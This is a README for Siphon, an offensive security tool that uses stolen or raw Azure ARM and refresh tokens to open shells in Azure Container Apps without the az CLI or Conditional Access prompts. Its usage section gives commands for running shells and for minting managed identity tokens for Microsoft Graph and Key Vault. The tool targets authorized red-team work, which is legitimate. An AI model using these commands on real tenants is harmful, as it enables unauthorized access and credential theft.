



# Siphon

```
   _____ _       __                
  / ___/(_)___  / /_  ____  ____  
  \__ \/ / __ \/ __ \/ __ \/ __ \ 
 ___/ / / /_/ / / / / /_/ / / / / 
/____/_/ .___/_/ /_/\____/_/ /_/  
      /_/                          
```

**A standalone exec client for Azure Container Apps. When `az containerapp exec` isn't an option.**

Siphon speaks Azure's undocumented WebSocket protocol directly using raw ARM tokens — no `az login`, no CLI install, no Conditional Access evaluation at runtime.

## Why Siphon?

During red team engagements, you often have a valid ARM token but no way to use it with `az containerapp exec`:

- **You have a stolen token, not an `az login` session** — the token came from FOCI pivoting, a compromised managed identity, CI/CD secrets, or token cache extraction. There's no clean way to feed a raw token into `az containerapp exec`.
- **Conditional Access blocks `az login`** — the org requires MFA for Azure Management, but your token was issued through a path that CA didn't cover. `az login` would force a new auth flow and trigger MFA.
- **You can't install az CLI** — you're on a compromised box with limited permissions. Siphon is a single Python script you can drop and run.

> **Note:** Siphon doesn't bypass MFA. The token acquisition happens upstream with other tools. Siphon consumes pre-authenticated tokens without triggering a new auth flow.

## Features

- **Token-native** — accepts raw ARM tokens directly via `--token`
- **Refresh token support** — exchange a refresh token for ARM token via `--refresh`
- **Interactive shell** — full PTY with configurable shell (`sh`, `bash`, `zsh`)
- **Single command execution** — run one command and exit via `--exec`
- **MI token minting** — extract Managed Identity tokens from the container via `--mint-token`
- **Enumeration mode** — enumerate container details without connecting via `--info-only`
- **Zero install** — single Python script, two pip dependencies

## Screenshot



<details>
<summary>MI Token Minting</summary>



</details>

<details>
<summary>Single Command Execution</summary>



</details>

## Installation

```bash
git clone https://github.com/YOUR_USERNAME/siphon.git
cd siphon
pip install -r requirements.txt
```

## Usage

### Interactive Shell

```bash
# With an ARM token
python3 siphon.py --token "$ARM_TOKEN" \
  --sub "ceff06cb-..." \
  --rg "prod-rg" \
  --app "payments-api"

# Use bash instead of default sh
python3 siphon.py --token "$ARM_TOKEN" \
  --sub "..." --rg "..." --app "..." \
  --shell bash

# With a full resource ID
python3 siphon.py --token "$ARM_TOKEN" \
  --resource-id "/subscriptions/.../resourceGroups/.../providers/Microsoft.App/containerApps/myapp"
```

### Single Command Execution

```bash
python3 siphon.py --token "$ARM_TOKEN" \
  --sub "..." --rg "..." --app "..." \
  --exec "id"
```

### Mint Managed Identity Token

```bash
# Mint a token for Microsoft Graph
python3 siphon.py --token "$ARM_TOKEN" \
  --sub "..." --rg "..." --app "..." \
  --mint-token https://graph.microsoft.com

# Mint a token for Key Vault
python3 siphon.py --token "$ARM_TOKEN" \
  --sub "..." --rg "..." --app "..." \
  --mint-token https://vault.azure.net
```

### Using a Refresh Token

```bash
python3 siphon.py --refresh "$REFRESH_TOKEN" \
  --tenant "contoso.com" \
  --sub "..." --rg "..." --app "..."
```

### Enumerate Only (No Connection)

```bash
python3 siphon.py --token "$ARM_TOKEN" \
  --sub "..." --rg "..." --app "..." \
  --info-only
```

## Requirements

- Python 3.8+
- `requests`
- `websocket-client`
- A valid ARM token scoped to `https://management.azure.com` with Contributor, Container App Contributor, or equivalent RBAC on the target Container App

## How It Works

Siphon reverse-engineers the WebSocket protocol that `az containerapp exec` uses under the hood:

1. Uses the ARM token to enumerate the Container App (revision, replica, container name)
2. Requests a short-lived exec auth token from the management plane
3. Opens a WebSocket connection to the Container Apps data plane
4. Speaks a double-wrapped binary framing protocol (Microsoft proxy layer + Kubernetes exec multiplexing)
5. Establishes an interactive PTY session

For a full technical deep-dive including the protocol analysis, see the [blog post](https://adversly.com/siphon/).

## Flags

```
authentication:
  --token TOKEN         ARM access token
  --refresh REFRESH     Refresh token (exchanged for ARM token via Entra ID)
  --tenant TENANT       Tenant ID or domain for refresh token exchange (default: common)
  --client-id CLIENT_ID Client ID for refresh token exchange

target:
  --resource-id ID      Full ARM resource ID of the Container App
  --sub SUB             Subscription ID
  --rg RG               Resource group name
  --app APP             Container App name

actions:
  --shell SHELL         Shell binary: sh, bash, zsh, etc. (default: sh)
  --exec CMD            Run a single command non-interactively and exit
  --mint-token RESOURCE Mint an MI token for the specified resource
  --info-only           Only enumerate container info, don't connect
```

## Disclaimer

This tool is intended for **authorized security testing and research only**. Only use Siphon on systems you have explicit permission to test. Unauthorized access to computer systems is illegal. The author is not responsible for any misuse of this tool.

## Credits

- **Author:** [Rishabh Gupta](https://adversly.com)
- **Blog:** [Siphon: When az containerapp exec Isn't an Option](https://adversly.com/siphon/)
- Built during the [Pwned Labs MCRTP Bootcamp](https://pwnedlabs.io/bootcamps/mcrtp-bootcamp)

## License

MIT License — see [LICENSE](LICENSE) for details.
